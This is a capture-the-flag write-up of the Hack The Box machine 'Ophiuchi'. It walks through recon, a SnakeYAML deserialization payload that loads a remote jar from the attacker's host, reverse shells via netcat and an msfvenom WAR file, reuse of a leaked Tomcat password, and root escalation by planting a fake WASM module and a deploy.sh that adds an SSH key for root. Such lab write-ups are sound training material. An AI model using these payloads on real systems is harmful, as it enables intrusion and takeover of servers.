






# Ophiuchi

## Machine Info


## Recon

### Port

- nmap => 8080 tomcat, functions: yaml parser

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Yaml Syntax

- [YAML Syntax — Ansible Documentation](https://docs.ansible.com/ansible/latest/reference_appendices/YAMLSyntax.html)
- [YAML Instruction (zh-cn)](https://www.yiibai.com/yaml)

Fill in yaml text and check the function: `http://10.10.10.227:8080/Servlet`

```console
foo1: "imqwe"
foo2: "imeclipse"

Due to security reason this feature has been temporarily on hold. We will soon fix the issue!
```

### Path

- gobuster
  - `/test`: 404 nothing
  - `/manager`: tomcat manager page, authentication needed
  - `/host-manager`: also authentication needed
  - `/yaml`: yaml parser page

```console
└─╼$ gobuster dir -u http://10.10.10.227:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 64 -x php -b 400,404 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.227:8080/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   400,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test                 (Status: 302) [Size: 0] [--> /test/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/yaml                 (Status: 302) [Size: 0] [--> /yaml/]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
Progress: 124568 / 124570 (100.00%)
===============================================================
Finished
===============================================================
```

## Foothold

### Java YAML Deserialization

**References**:

- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [Java安全之SnakeYaml反序列化分析](https://tttang.com/archive/1591/)

- [artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads (github.com)](https://github.com/artsploit/yaml-payload)

**POC**:

Input yaml data:

```console
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14"]
  ]]
]
```



Receive a request from remote server:

```console
└─╼$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [30/Jan/2024 03:43:09] "GET / HTTP/1.1" 200 -
```

**POC RCE**:

Change command inside payload:



Compile payload and prepare request data:

```console
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14/yaml_ping.jar"]
  ]]
]
```

```console
└─╼$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

└─╼$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1608) (out= 674)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1657) (out= 449)(deflated 72%)

└─╼$ jar -tf yaml-payload.jar
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
META-INF/services/
META-INF/services/javax.script.ScriptEngineFactory
artsploit/
artsploit/AwesomeScriptEngineFactory.class
artsploit/AwesomeScriptEngineFactory.java
```

**[!]** Unfortunately, no icmp package received... Check Java version and switch to a lower version

- java 17 [x]
- java 11 [y]

```console
└─╼$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.10 2024-01-16
OpenJDK Runtime Environment (build 17.0.10+7-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.10+7-Debian-1, mixed mode, sharing)
```

```console
└─╼$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [30/Jan/2024 04:08:31] "GET /yaml_ping.jar HTTP/1.1" 200 -
10.10.10.227 - - [30/Jan/2024 04:08:32] "GET /yaml_ping.jar HTTP/1.1" 200 -

└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
04:08:32.075126 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
04:08:32.075167 IP 10.10.14.14 > 10.10.10.227: ICMP echo reply, id 1, seq 1, length 64
04:08:33.138393 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
04:08:33.138415 IP 10.10.14.14 > 10.10.10.227: ICMP echo reply, id 1, seq 2, length 64
04:08:34.176999 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
04:08:34.177022 IP 10.10.14.14 > 10.10.10.227: ICMP echo reply, id 1, seq 3, length 64
```

**Exploit**:

Change command inside payload to Java reverse shell:



```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 44690
bash: cannot set terminal process group (837): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$ uname -a
Linux ophiuchi 5.4.0-51-generic #56-Ubuntu SMP Mon Oct 5 14:28:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
tomcat@ophiuchi:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:e2:2f brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.227/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:e22f/64 scope global dynamic mngtmpaddr
       valid_lft 86398sec preferred_lft 14398sec
    inet6 fe80::250:56ff:feb9:e22f/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### tomcat -> admin

**Method1: Exploit Tomcat with manager-gui**

- enum tomcat user info: `admin:whythereisalimit` with `manager-gui & admin-gui`

```console
tomcat@ophiuchi:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
        version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

- login: `http://10.10.10.227:8080/manager/`




- generate rshell war and deploy it to tomcat

```console
└─╼$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4321 -f war -o shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: shell.war
```



```console
└─╼$ sudo rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 32936
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
uname -a
Linux ophiuchi 5.4.0-51-generic #56-Ubuntu SMP Mon Oct 5 14:28:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

**Other methods:** the admin password for tomcat is also for su and ssh

- `su admin -`
- `ssh admin@$IP`

```console
└─╼$ sshpass -p 'whythereisalimit' ssh admin@$IP
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)
...
Last login: Tue Jan 30 09:38:27 2024 from 10.10.14.14
admin@ophiuchi:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

### admin -> root

- enum sudo

```console
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

- **code audit**
  - `/opt/wasm-functions/index.go`
  - `/opt/wasm-functions/deploy.sh`
  - `/opt/wasm-functions/main.wasm`
  - go script to load main.wasm -> if info function returns 1 -> execute deploy.sh
  - all these two file are used **relative** path => create my own main.wasm and deploy.sh => execute go script in that location



- script usage

```console
admin@ophiuchi:/opt/wasm-functions$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
admin@ophiuchi:/opt/wasm-functions$ file main.wasm
main.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

- **analyze** `main.wasm` using [WebAssembly/wabt](https://github.com/WebAssembly/wabt) on local host => `info` function returns 0 => output: `Not ready to deploy`

```console
└─╼$ nc -lvnp 9999 > main.wasm
listening on [any] 9999 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.227] 53820
^C

└─╼$ ls
main.wasm

└─╼$ wasm2wat main.wasm
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))

└─╼$ wasm-decompile main.wasm
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

- **[!]** create a main.wasm with info function returns 1 => trigger deploy.sh with exploit code

```console
└─╼$ cat main.wat
(module
  (memory (export "memory") 16)
  (global (export "g_a") (mut i32) (i32.const 1048576))
  (global (export "data_end") i32 (i32.const 1048576))
  (global (export "heap_base") i32 (i32.const 1048576))
  (table (export "T_a") 1 1 funcref)
  (func (export "info") (result i32)
    (i32.const 1)
  )
)

└─╼$ wat2wasm main.wat -o main.wasm

└─╼$ ls
main.wasm  main.wat

└─╼$ wasm-decompile main.wasm
export memory memory(initial: 16, max: 0);

export global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

export table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 1
}
```

- **exploit** on remote machine

```console
admin@ophiuchi:/dev/shm$ cat deploy.sh
#!/bin/bash

mkdir -p /root/.ssh
echo 'ssh-ed25519 AAAA...8O0G qwe@kali' >> /root/.ssh/authorized_keys
echo '[+] successfully insert pub key into root's authorized_keys'

admin@ophiuchi:/dev/shm$ nc -lvnp 9999 > main.wasm
Listening on 0.0.0.0 9999
Connection received on 10.10.14.14 59558
^C
admin@ophiuchi:/dev/shm$ file main.wasm
main.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
[+] successfully insert pub key into root's authorized_keys
```

```console
└─╼$ ssh root@$IP
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)
...
Last login: Fri Feb  5 17:51:32 2021
root@ophiuchi:~# pwd
/root
root@ophiuchi:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ophiuchi:~# uname -a
Linux ophiuchi 5.4.0-51-generic #56-Ubuntu SMP Mon Oct 5 14:28:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 8080 tomcat with yaml parser -> java snakeyaml deserialization -> tomcat shell -> enum tomcat user info -> admin credential -> manager-gui exploit | su | ssh -> admin shell -> enum sudo -> go script & wasm & shell script (relative path) -> fake wasm and shell script -> trigger to execute shell script by root priv -> root shell

## Beyond Root

### Switch Java Version

```console
└─╼$ sudo apt install openjdk-11-jdk

└─╼$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/java to provide /usr/bin/java (java) in manual mode

└─╼$ sudo update-alternatives --config javac
There are 2 choices for the alternative javac (providing /usr/bin/javac).

  Selection    Path                                          Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/javac   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/javac   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/javac   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/javac to provide /usr/bin/javac (javac) in manual mode

└─╼$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.20-ea 2023-07-18
OpenJDK Runtime Environment (build 11.0.20-ea+7-post-Debian-1)
OpenJDK 64-Bit Server VM (build 11.0.20-ea+7-post-Debian-1, mixed mode, sharing)

└─╼$ javac --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
javac 11.0.20-ea
```

### WAT & WASM

The Web Assembly Binary Toolkit: [WebAssembly/wabt](https://github.com/WebAssembly/wabt)

- wat2wasm: `wat2wasm example.wat -o example.wasm`
- wasm2wat: `wasm2wat example.wasm -o example.wat`
- wasm-decompile: decompile a wasm binary into **readable** C-like syntax

So, what is `WAT` and `WASM`?

- **WAT** is the textual format of WebAssembly, providing a human-readable representation of the WASM. It's useful for developers to write or view WebAssembly modules in a text format, which can be helpful for learning WebAssembly or during debugging. The WAT format resembles Lisp or assembly language, with nested structures and S-expressions.

- **WASM** is the compiled target format of WebAssembly, a binary format designed for machine code. This format is designed for fast parsing and execution while keeping the file size as small as possible. WASM files are the product of compiling WAT files; they are typically used for distributing and executing WebAssembly code on the web.
